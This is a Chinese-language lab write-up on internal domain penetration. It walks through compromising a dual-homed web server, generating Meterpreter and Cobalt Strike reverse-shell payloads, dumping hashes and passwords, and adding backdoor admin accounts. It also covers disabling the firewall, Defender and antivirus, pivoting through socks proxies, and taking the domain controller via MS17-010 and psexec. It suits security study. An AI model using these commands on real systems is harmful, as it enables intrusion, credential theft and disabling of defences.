# 内网域渗透分析（实战总结）

## **一、测试环境搭建**

靶场常见的网络拓扑环境如下：





web 服务器安装有双网卡，一块网卡连接互联网，一块网卡连接内网，内网里的机器是无法直接连接互联网的。我们使用 vmware 来模拟上述环境，配置网卡如下：





我们甚至还可以将 web 服务器的上网网卡 NAT 改为自定义 VMnet3，将攻击机的网卡也改为 VMnet3，这样的好处是整个渗透测试过程既保证了网络都是通的，又保证了 ip 不会发生变化，利于我们持续的作渗透，ip 自定义为我们便于记忆数字，提高我们的效率。（有时候 6 个以上虚拟机同时开着，时不时忘了 ip 又得来回切换真的很痛苦）

## 二、如何拿下 web 服务器

搭建好测试环境后，第一步是开始对 web 服务器进行渗透。因为 web 服务器同时连接了外网和内网，所以必须首先拿下。这里有关 web 服务器的渗透不展开讲了，无非也就是利用漏洞，诸如：弱口令、上传漏洞、远程代码执行、各种 cms 漏洞，总之都是可以找到写入 webshell 的方法。对于靶场来说，最直接的方法就是查找网站的指纹，然后去找对应的漏洞进行利用。成功写入 webshell 后，接着就要上传木马控制 web 服务器，这里可以用 Metasploit（以下简称：MSF）或 Cobaltstrike（以下简称 CS）。


用 nmap 扫描下端口还是很必要的：


```
nmap -sS -n -A 192.168.167.130
```


效果还是很不错的，虽然 web 服务器的防火墙和 360 都是开着的；




### 1、MSF 生成木马控制服务器的方法

我们以 windows 木马为例进行讲解：


```powershell
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.164.134  LPORT=4444 -f exe > shell.exe
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.164.134
set lport 4444
exploit
```


meterpreter 的进入与退出:





常规动作先提权；





执行`run post/windows/manage/enable_rdp`模块来打开远程桌面；




### 2、CS 生成木马控制服务器的方法

启动 CS 服务器端：





启动 CS 客户端：





配置好监听器：





生成后门、上传、执行一气呵成；





成功连接，由于受害机默认 60 秒进行一次回传，为了实验效果我们这里把时间设置成 1，sleep 1；





CS 安装插件，扩展其功能：





提权成功，可看到多出一个通道：




### 3、MSF 与 CS 会话互通

因为两个工具不同的特点，想同时使用也是可以的，只需要进行下会话互传。


**（1）MSF 派生给 CS**


先创建监听器：





打开 msf，使用 payload_inject 模块注入到 cobalt strike，注意使用的 payload 要和 cs 的一致为 reverse_http，因为 cs 监听的是 reverse_http。


```powershell
meterpreter > background
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject      # 设置与cs相同的payload；
msf5 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_http  
msf5 exploit(windows/local/payload_inject) > set lhost 192.168.10.128
msf5 exploit(windows/local/payload_inject) > set lport 4444     # 设置刚才获得session
msf5 exploit(windows/local/payload_inject) > set session 1
msf5 exploit(windows/local/payload_inject) > set disablepayloadhandler true
msf5 exploit(windows/local/payload_inject) > run
```

复制代码





**（2）CS 派生给 MSF**


这里进行一个操作，将会话分给 msf 一个；

msf如下操作：

```powershell
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.164.134
lhost => 192.168.164.134
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > exploit
```

复制代码


CS 这边先新增监听器，然后选增加会话，即 spawn：








成功后：




## 三、内网的横向移动

打入内网后，首先要进行的就是信息收集，弄清楚内网有哪些网段，域控是哪个，域用户有哪些等重要信息，为后续的渗透提供支持。

### 1、内网信息收集

**（1）dos 命令的方式**


先进行基本信息的收集：在提权成功的情况下，以 system 的身份来运行下列命令，大部分都有回显，不会报错；


```powershell
ipconfig /all   查看本机ip，所在域
route print     打印路由信息
net view        查看局域网内其他主机名
arp -a          查看arp缓存
net start       查看开启了哪些服务
net share       查看开启了哪些共享
net share ipc$  开启ipc共享
net share c$    开启c盘共享
net use \\192.168.xx.xx\ipc$ "" /user:""   与192.168.xx.xx建立空连接
net use \\192.168.xx.xx\c$ "密码" /user:"用户名"  建立c盘共享
dir \\192.168.xx.xx\c$\user    查看192.168.xx.xx c盘user目录下的文件  
net config Workstation   查看计算机名、全名、用户名、系统版本、工作站、域、登录域
net user                 查看本机用户列表
net time /domain         查看时间服务器，判断主域，主域服务器都做时间服务器
net user /domain         查看域用户
net localgroup administrators   查看本地管理员组（通常会有域用户）
net view /domain         查看有几个域
net user 用户名 /domain   获取指定域用户的信息
net group /domain        查看域里面的工作组，查看把用户分了多少组（只能在域控上操作）net group 组名 /domain    查看域中某工作组
net group "domain admins" /domain  查看域管理员的名字
net group "domain computers" /domain  查看域中的其他主机名
net group "doamin controllers" /domain  查看域控制器（可能有多台）
```

复制代码


渗透过程中可能用到的 dos 命令也在这一并讲了：


```powershell
net user hack hack123 /add
net localgroup administrators hack /add
net localgroup "Remote Desktop Users" hack /add
开启3389；
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
netsh advfirewall set allprofiles state off        #关闭防火墙
net stop windefend
```

复制代码


**（2）MSF 模块信息收集**


抓取密码的方法:








ps 命令查看进程 ID，一般选择 explorer.exe 对应的 PID：





探测域内存活主机：





域控列表：





所有存活主机：








更多的就不一一演示和截图了，以列表的方式提供给大家，在实际渗透中灵活选用：


Post 后渗透模块


```powershell
run post/windows/manage/migrate           #自动进程迁移
run post/windows/gather/checkvm           #查看目标主机是否运行在虚拟机上
run post/windows/manage/killav            #关闭杀毒软件
run post/windows/manage/enable_rdp        #开启远程桌面服务
run post/windows/manage/autoroute         #查看路由信息
run post/windows/gather/enum_logged_on_users    #列举当前登录的用户
run post/windows/gather/enum_applications       #列举应用程序
run post/windows/gather/credentials/windows_autologin #抓取自动登录的用户名和密码
run post/windows/gather/smart_hashdump               #dump出所有用户的hash
run getgui -u hack -p 123
run post/windows/gather/enum_patches   #补丁信息
run  post/multi/recon/local_exploit_suggester   #查询可利用的漏洞  有时候无法使用后渗透模块添加用户    可以使用shell自主添加
net user hack Zyx960706 /add
net localgroup administrator hack /add
netsh advfirewall set allprofiles state off        #关闭防火墙
net stop windefend
run post/windows/gather/enum_patches   #补丁信息
run post/multi/recon/local_exploit_suggester   #查询可利用的漏洞
```

复制代码


域内存活主机探测（系统、端口）


```powershell
auxiliary/scanner/discovery/udp_sweep    #基于udp协议发现内网存活主机
auxiliary/scanner/discovery/udp_probe    #基于udp协议发现内网存活主机
auxiliary/scanner/netbios/nbname         #基于netbios协议发现内网存活主机
auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)，如果开放了端口，则说明该主机存活
```

复制代码


端口扫描


```powershell
auxiliary/scanner/portscan/tcp           #基于tcp进行端口扫描(1-10000)
auxiliary/scanner/portscan/ack           #基于tcp的ack回复进行端口扫描，默认扫描1-10000端口端口扫描有时会使会话终端，所以可以上传nmap后在shell中使用nmap扫描。但是要记得清理
```

复制代码


服务扫描


```powershell
auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口
auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口
auxiliary/scanner/telnet/telnet_version  #发现内网telnet服务，基于默认23端口
auxiliary/scanner/dns/dns_amp            #发现dns服务，基于默认53端口
auxiliary/scanner/http/http_version      #发现内网http服务，基于默认80端口
auxiliary/scanner/http/title             #探测内网http服务的标题
auxiliary/scanner/smb/smb_version        #发现内网smb服务，基于默认的445端口
use auxiliary/scanner/mssql/mssql_schemadump  #发现内网SQLServer服务,基于默认的1433端口
use auxiliary/scanner/oracle/oracle_hashdump  #发现内网oracle服务,基于默认的1521端口
auxiliary/scanner/mysql/mysql_version    #发现内网mysql服务，基于默认3306端口
auxiliary/scanner/rdp/rdp_scanner        #发现内网RDP服务，基于默认3389端口
auxiliary/scanner/redis/redis_server     #发现内网Redis服务，基于默认6379端口
auxiliary/scanner/db2/db2_version        #探测内网的db2服务，基于默认的50000端口
auxiliary/scanner/netbios/nbname         #探测内网主机的netbios名字
```

复制代码


**（3）CS 模块进行信息收集**


使用 portscan 命令：ip 网段 — ports 端口 — 扫描协议（arp、icmp、none）— 线程（实战不要过高）。


```
portscan 192.168.52.0/24 445 arp 200
```





点击工具栏的 View–>Targets，查看端口探测后的存活主机。（Targets 可自行添加）











抓密码：





这里再介绍一个收集密码工具-LaZagne，每个软件都使用不同的技术（纯文本，API，自定义算法，数据库等）存储其密码，这个工具是用来获取存储在本地计算机上的密码，诸如浏览器密码等等。




### 2、代理的设置

发现目标后，为方便后续工具的使用，需要先搭建代理，将 web 服务器搭建成 socks5 代理服务器,内网渗透里先把网调通是最关键的，所以下面会多讲点代理的问题；


**（1）meterpreter 搭建反向 socks4 代理**


```powershell
run get_local_subnets  #查看路由段
run autoroute -s 192.168.52.0/24   #添加路由至本地
run autoroute -p  #打印当前路由信息
```

复制代码





退出来连接同样是存在的,可以放心操作;





添加路由的目的是为了让 MSF 其他模块能访问内网的其他主机，即 52 网段的攻击流量都通过已渗透的这台目标主机的 meterpreter 会话来传递。


添加 socks4a 代理的目的是为了让其他软件更方便的访问到内网的其他主机的服务。（添加路由一定要在挂代理之前，因为代理需要用到路由功能）


编辑本地的代理服务：


```powershell
vim /etc/proxychains.conf
```














测试一下：


`proxychains nmap -p 1-1000 -Pn -sT 192.168.52.141  # -Pn和-sT`必须要有





`proxychains`是无法代理`icmp`流量的，所以`ping`是没有用的。


补充一个`meterpreter`反弹单个端口的用法：


portfwd 是 meterpreter 提供的一种基本的端口转发。porfwd 可以反弹单个端口到本地，并且监听.使用方法如下:


```powershell
meterpreter > portfwd  -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
    -L <opt>  The local host to listen on (optional).
    -h        Help banner.
    -l <opt>  The local port to listen on.
    -p <opt>  The remote port to connect to.
    -r <opt>  The remote host to connect to.
```

复制代码


使用实例介绍：


反弹 10.1.1.129 端口 3389 到本地 2222 并监听那么可以使用如下方法：


```powershell
meterpreter > portfwd add -l 2222 -r 10.1.1.129 -p 3389
[*] Local TCP relay created: 0.0.0.0:2222 <-> 10.1.1.129:3389
meterpreter > portfwd
0: 0.0.0.0:2222 -> 10.1.1.129:3389
1 total local port forwards.
```

复制代码


接着连接本地 2222 端口即可连接受害机器 10.1.1.129 3389 端口，如下：


```powershell
root@kali:~# rdesktop 127.1.1.0:2222
```


**（2）ew、frp 搭建代理**


了解清楚代理的原理之后，还可以用第三方的软件来试试，比如 ew，frp；


在这里把 kali 的攻击机可以理解为公网，web 服务器那台理解为内网，下面以 ew 测试：


```powershell
kali：./ew_for_linux64 -s rcsocks -l 1080 -e 1024 &
```


该命令的意思是说公网机器监听 1080 和 1024 端口。等待攻击者机器访问 1080 端口，目标机器访问 1024 端口。


目标机器执行如下命令：


```powershell
win7：ew.exe -s rssocks -d 192.168.164.134 -e 1024
```


修改 kali 里 proxychains 的配置文件/etc/c.conf：





上面的配置完后，可以开始测试了：





利用 frp 搭建 socks 代理


上传 frp 客户端及配置文件到目标机器：





启动客户端：





实践当中多用反向代理，正向的容易被防火墙拦住，所以都是将程序的服务器端架在公网，客户端在内网，做横向移动。


**（3）CS 搭建代理**


CS 添加一个代理：建立了一条由攻击机到 web 服务器的 socks 通道，socks 的服务端在攻击机，也是反向代理；





View > Proxy Pivots 复制代理链接到 MSF 中；


```powershell
msf5 > setg Proxies socks4/5:ip:port #让msf所有模块的流量都通过此代理走。(setg全局设置)
msf5 > setg ReverseAllowProxy true #允许反向代理，通过socks反弹shell，建立双向通道。
```

复制代码


这里 ip 需要修改为 CS 服务器的 ip。

### 3、域成员和域控的渗透

**（1）MSF 的利用**


开放了 445 端口，所以利用 use auxiliary/scanner/smb/smb_version 可以扫描系统版本，扫描结果是 win2003；





ms08-067 没打下来，可以用 use auxiliary/admin/smb/ms17_010_command 执行一些系统权限的命令，添加管理员用户尝试 3389 登录；


```powershell
use auxiliary/admin/smb/ms17_010_command
show options
set rhosts 192.168.52.141
set command net user test hongrisec@2019 /add #添加用户
run #成功执行
set command net localgroup administrators test /add #管理员权限
run #成功执行
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run #成功执行
```

复制代码


远程连接一下：





还可以使用 exploit/windows/smb/ms17_010_psexec 尝试去打一个 shell 回来：


```powershell
use exploit/windows/smb/ms17_010_psexec
set rhosts 192.168.52.141
set payload windows/meterpreter/bind_tcp
set lhost 192.168.164.134
set lport 6666
set SMBPass hongrisec@2019
set SMBUser test
run
```

复制代码





因为之前抓到了域管理的账号密码所以直接使用 exploit/windows/smb/psexec 模块拿下域控，且是管理员权限；





还可以使用的模块有：


```powershell
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/psexec_psh
exploit/windows/smb/eternalblue_doublepulsar
```

复制代码


